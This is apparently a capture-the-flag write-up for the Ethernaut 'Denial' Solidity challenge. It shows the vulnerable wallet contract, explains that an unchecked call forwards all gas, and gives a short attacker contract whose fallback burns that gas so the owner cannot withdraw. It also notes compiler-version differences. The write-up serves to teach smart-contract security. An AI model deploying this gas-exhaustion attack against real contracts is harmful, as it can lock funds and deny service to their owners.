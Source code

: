 # 20. Denial

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Vulnerability

The vulnerability lies on this line : `partner.call{value:amountToSend}("");` as call will by default forward all gas available.
It is possible for the partner contract to consume all of it and forbid the caller to continue execution.

The easiest way to consume all gas is to provide and invalid OPCODE with `assert(false);`

The following contract can solve the challenge :

```solidity
pragma solidity 0.8.4;

contract TargetCall {
    event GasAmount(uint256);
    
    fallback() external payable {
        assert(false);
    }
}
```

## Side note on Solidity >= 0.8.5

There is a different behaviour in versions equal and above 0.8.5 :

the `assert(false)` gets compiled to : `0xFDFE` : `REVERT INVALID`. THis means that the code will revert and not assert, refunding gas and allowing execution to continue for the caller.

Modifying the bytecode solves that issue but is certainly not the cleanest way to do it. See (my answer)[https://ethereum.stackexchange.com/a/113362/84305] to a related question for more informations.


